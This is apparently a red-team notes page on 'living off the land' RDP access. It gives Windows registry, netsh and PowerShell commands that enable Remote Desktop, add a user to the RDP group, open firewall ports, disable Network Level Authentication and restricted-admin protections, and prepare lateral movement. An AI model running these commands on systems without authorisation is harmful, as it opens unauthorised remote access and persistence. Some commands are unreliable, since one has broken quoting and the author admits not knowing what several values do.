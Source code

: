 # Living off the Land

## 01 - Enable RDP Server

```
C:\> sc.exe config termservice start=auto
```

To start Remote Desktop Service

```
C:\> net.exe start termservice
```

To stop Remote Desktop Service

```
C:\> net.exe stop termservice
```

## 02 - Enable with Registry

### 2.1 - Choose any of the three options

#### 2.1.1 - Automatic

```
C:\> reg.exe add hklm\system\currentcontrolset\services\termservice /v Start /t REG_DWORD /d 2 /f

PS C:\> Set-ItemProperty -Force -Path "HKLM:\System\CurrentControlSet\Services\Termservice" -Name "Start" -Type DWord -Value 2
```

#### 2.1.2 - Manual

```
C:\> reg.exe add hklm\system\currentcontrolset\services\termservice /v Start /t REG_DWORD /d 3 /f

PS C:\> Set-ItemProperty -Force -Path "HKLM:\System\CurrentControlSet\Services\Termservice" -Name "Start" -Type DWord -Value 3
```

#### 2.1.3 - Disabled

```
C:\> reg.exe add hklm\system\currentcontrolset\services\termservice /v Start /t REG_DWORD /d 4 /f

PS C:\> Set-ItemProperty -Force -Path "HKLM:\System\CurrentControlSet\Services\Termservice" -Name "Start" -Type DWord -Value 4
```

### 2.2 - Create user and add it to the RDP users group

^1f2bd0

```
C:\> net.exe user <username> <password> /add & net localgroup "Remote Desktop Users" <username> /add

PS C:\> Add-LocalGroupMember -Group "Remote Desktop Users" -Member <username>
```

### 2.3 - Ports for the RDP port

#### 2.3.1 - Command Prompt

```
C:\> reg.exe add "[\\<IP>\]HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\PortNumber" /t REG_DWORD /d <PORT> /f

C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List" /v 3389:TCP /t REG_SZ /d "3389:TCP:*:Enabled:Remote Desktop" /f

C:\> reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f

C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Licensing Core" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f
```

#### 2.3.2 - PowerShell

```
PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -Name "PortNumber" -Type DWord -Value <PORT>

PS C:\> Set-ItemProperty -Force -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Type DWord -Value 0
```

### 2.4 - Set a firewall rule

#### 2.4.1 - Command Prompt

```
C:\> netsh.exe firewall set service type=remotedesktop mode=enabled

C:\> netsh.exe advfirewall firewall set rule group="remote desktop" new enable=yes
```

#### 2.4.2 - PowerShell

```
PS C:\> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

PS C:\> New-NetFirewallRule -DisplayName 'RDPPORTLatest' -Profile 'Public' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 21390
```

### 2.5 - Disable Admin Restriction

#### 2.5.1 - Command Prompt

```
C:\> reg.exe add "HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestricedAdmin /t REG_DWORD /d 0 /f
```

#### 2.5.2 - PowerShell

```
PS C:\> Set-ItemProperty -Force -Path 'HKLM:\System\CurrentControlSet\Control\Lsa' -Name "DisableRestricedAdmin" -Type DWord -Value 0
```

### 2.6 - Login RDP

Useful for lateral movement

```
C:\> mstsc.exe /v:<IP> [/restrictedadmin]
```

TODO: Figure it out what each of these registry values and subkey does.

```
C:\> reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f

C:\> reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AllowMultipleTSSessions /t REG_DWORD /d 1 /f

C:\> reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 100 /f

C:\> reg.exe add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\SYSTEM" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

```
PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' -Name "EnableConcurrentSessions" -Type DWord -Value 1

PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' -Name "AllowMultipleTSSessions" -Type DWord -Value 1

PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services' -Name "MaxInstanceCount" -Type DWord -Value 100

PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\SYSTEM' -Name "LocalAccountTokenFilterPolicy" -Type DWord -Value 1
```

---
## References

### Github

- [TakeMyRDP2.0](https://github.com/nocerainfosec/TakeMyRDP2.0)

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

### Red Team Recipe

- [RedTeamRecipe: Registry Attack Vectors](https://blog.redteamguides.com/registry-attack-vectorsrtc0018)

### FAS Data Security Compliance Program

- [FAS Data Security Compliance Program: Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors](https://datasecurity.ucsf.edu/news/russian-government-cyber-activity-targeting-energy-and-other-critical-infrastructure-sectors)